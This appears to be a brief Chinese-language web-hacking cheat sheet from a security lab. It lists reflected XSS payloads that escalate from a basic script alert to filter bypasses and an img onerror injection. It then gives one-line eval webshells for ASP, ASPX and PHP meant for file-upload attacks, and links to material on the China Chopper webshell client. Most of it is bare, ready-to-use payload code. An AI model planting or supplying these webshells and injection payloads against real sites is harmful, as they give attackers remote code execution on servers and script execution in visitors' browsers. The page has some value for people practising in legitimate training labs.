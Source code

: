 #
```


```

## R-XSS
初階
```
<b>AAAAA</>
<marquee>人生跑馬燈</marquee>

<script>alert(/有漏洞 xss/)</script>
```

中階
```
<sc<script>ript>alert(/xss/)</script>
```
```
2.大小寫混淆繞過

輸入<ScRipt>alert(/xss/)</script>

```
高階
```
<img src=1 onerror=alert(/xss/)>
```


# file upload 
```
一句話木馬
asp的一句話是：

<%eval request ("pass")%>

aspx的一句話是：
<%@ Page Language="Jscript"%> <%eval(Request.Item["pass"],"unsafe");%>

php的一句話是：
<?php @eval($_POST['pass']);?>
```
```
中國菜刀與一句話木馬
https://www.itread01.com/content/1546270763.html
```
